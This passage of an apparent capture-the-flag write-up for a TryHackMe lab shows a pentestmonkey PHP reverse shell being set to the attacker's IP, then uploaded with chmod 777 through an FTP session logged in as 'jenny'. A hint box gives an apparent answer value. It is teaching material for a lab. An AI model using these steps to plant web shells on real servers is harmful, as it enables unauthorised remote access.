 {% hint style="info" %}
987654321
{% endhint %}

### 3.2 - Change the necessary values inside the web shell and upload it to the webserver

We can download php web shell on pentester monkey website: [https://pentestmonkey.net/tools/web-shells/php-reverse-shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell)

and custom it with our local IP:

<div align="left">

<figure><img src="../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

</div>

After that, we can connect with FTP credentials and put in our custom php reverse shell.

```bash
ftp h4cked.thm
Connected to h4cked.thm.
220 Hello FTP World!
Name (h4cked.thm:kali): jenny
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> put php-reverse-shell.php
local: php-reverse-shell.php remote: php-reverse-shell.php
229 Entering Extended Passive Mode (|||51568|)
150 Ok to send data.
100% |************************************************************************************************************|  5493       30.99 MiB/s    00:00 ETA
226 Transfer complete.
5493 bytes sent in 00:00 (38.18 KiB/s)

ftp> chmod 777 php-reverse-shell.php
200 SITE CHMOD command ok.
ftp> ls
229 Entering Extended Passive Mode (|||11129|)
150 Here comes the directory listing.
-rw-r--r--    1 1000     1000        10918 Feb 01  2021 index.html
-rwxrwxrwx    1 1000     1000         5493 Oct 02 22:48 php-reverse-shell.php
```